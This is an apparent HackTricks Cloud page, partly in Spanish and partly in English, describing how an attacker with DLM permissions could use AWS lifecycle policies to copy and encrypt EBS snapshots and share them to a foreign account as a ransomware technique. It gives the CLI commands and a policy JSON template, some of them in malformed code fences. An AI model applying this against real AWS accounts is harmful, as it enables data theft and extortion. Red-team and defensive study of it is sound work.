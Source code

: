 # AWS - Administrador del Ciclo de Vida de Datos

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Administrador del Ciclo de Vida de Datos (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Un ataque de ransomware puede ejecutarse cifrando tantos volúmenes EBS como sea posible y luego borrando las instancias EC2 actuales, los volúmenes EBS y las instantáneas. Para automatizar esta actividad maliciosa, se puede emplear Amazon DLM, cifrando las instantáneas con una clave KMS de otra cuenta de AWS y transfiriendo las instantáneas cifradas a una cuenta diferente. Alternativamente, podrían transferir instantáneas sin cifrar a una cuenta que gestionan y luego cifrarlas allí. Aunque no es directo cifrar volúmenes EBS o instantáneas existentes directamente, es posible hacerlo creando un nuevo volumen o instantánea.

En primer lugar, se utilizará un comando para recopilar información sobre los volúmenes, como el ID de la instancia, el ID del volumen, el estado de cifrado, el estado de adjunto y el tipo de volumen.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
aws dlm create-lifecycle-policy --description "Mi primera política" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
   "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
   "ResourceTypes": [
      "VOLUME"
   ],
   "TargetTags": [
      {
         "Key": "ExampleKey",
         "Value": "ExampleValue"
      }
   ],
   "Schedules": [
      {
         "Name": "DailySnapshots",
         "CopyTags": true,
         "TagsToAdd": [
            {
               "Key": "SnapshotCreator",
               "Value": "DLM"
            }
         ],
         "VariableTags": [
            {
               "Key": "CostCenter",
               "Value": "Finance"
            }
         ],
         "CreateRule": {
            "Interval": 24,
            "IntervalUnit": "HOURS",
            "Times": [
               "03:00"
            ]
         },
         "RetainRule": {
            "Count": 14
         },
         "FastRestoreRule": {
            "Count": 2,
            "Interval": 12,
            "IntervalUnit": "HOURS"
         },
         "CrossRegionCopyRules": [
            {
               "TargetRegion": "us-west-2",
               "Encrypted": true,
               "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
               "CopyTags": true,
               "RetainRule": {
                  "Interval": 1,
                  "IntervalUnit": "DAYS"
               }
            }
         ],
         "ShareRules": [
            {
               "TargetAccounts": [
                  "123456789012"
               ],
               "UnshareInterval": 30,
               "UnshareIntervalUnit": "DAYS"
            }
         ]
      }
   ],
   "Parameters": {
      "ExcludeBootVolume": false
   }
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
